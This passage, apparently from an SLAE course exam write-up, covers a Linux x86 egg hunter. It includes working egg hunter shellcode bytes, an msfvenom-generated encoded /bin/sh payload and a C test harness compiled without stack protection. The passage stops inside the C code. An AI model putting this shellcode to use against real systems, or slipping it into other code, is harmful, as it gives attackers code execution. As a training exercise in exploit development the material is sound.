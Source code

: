 The Assembly code compiled as an executable binary:

```bash
osboxes@osboxes:~/Downloads/SLAE$ ./compile.sh egghunter
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
```

#### Customize Shellcode (Different payloads)
------

Objdump is used to extract the shellcode from the Egg Hunter in hex format (Null free):

```bash
osboxes@osboxes:~/Downloads/SLAE$ objdump -d ./egghunter|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xd2\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x90\x50\x90\x50\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7"
```

Msfvenom is used to generate a payload that will be used along with the Egg Hunter in a C program. The payload will spawn a shell on the local host along with checking for Null bytes in the process.

```bash
osboxes@osboxes:~/Downloads/SLAE$ msfvenom -p linux/x86/exec CMD=/bin/sh -f c --arch x86 --platform linux -b \x00 
Found 10 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 70 (iteration=0)
x86/shikata_ga_nai chosen with final size 70
Payload size: 70 bytes
Final size of c file: 319 bytes
unsigned char buf[] = 
"\xbd\xea\xfb\x87\x4a\xda\xdb\xd9\x74\x24\xf4\x5a\x2b\xc9\xb1"
"\x0b\x31\x6a\x15\x03\x6a\x15\x83\xea\xfc\xe2\x1f\x91\x8c\x12"
"\x46\x34\xf5\xca\x55\xda\x70\xed\xcd\x33\xf0\x9a\x0d\x24\xd9"
"\x38\x64\xda\xac\x5e\x24\xca\xa7\xa0\xc8\x0a\x97\xc2\xa1\x64"
"\xc8\x71\x59\x79\x41\x25\x10\x98\xa0\x49";
```

The Egg is prepended twice to this newly generated payload, the tagged Egg would precede the payload with the value "\x90\x50\x90\x50\x90\x50\x90\x50".

#### Egg Hunter in C
--------

The following C code will be used to demonstrate the Egg Hunter from a high-level language perspective. 

```c
/**
* Filename: shellcode.c
* Author: h3ll0clar1c3
* Purpose: Egghunter, spawning a shell on the local host  
* Compilation: gcc -fno-stack-protector -z execstack -m32 shellcode.c -o egghunter_final  
* Usage: ./egghunter_final
* Shellcode size: 113 bytes
* Architecture: x86
**/

#include <stdio.h>
#include <string.h>

unsigned char hunter[] = \
"\x31\xd2\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee" // objdump -d
"\xb8\x90\x50\x90\x50\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7";
```

[skape-link]: http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf
[slae-link]: http:/securitytube-training.com/online-courses/securitytube-linux-assembly-expert
[github-code]: https://github.com/h3ll0clar1c3/SLAE/tree/master/Exam/Assignment2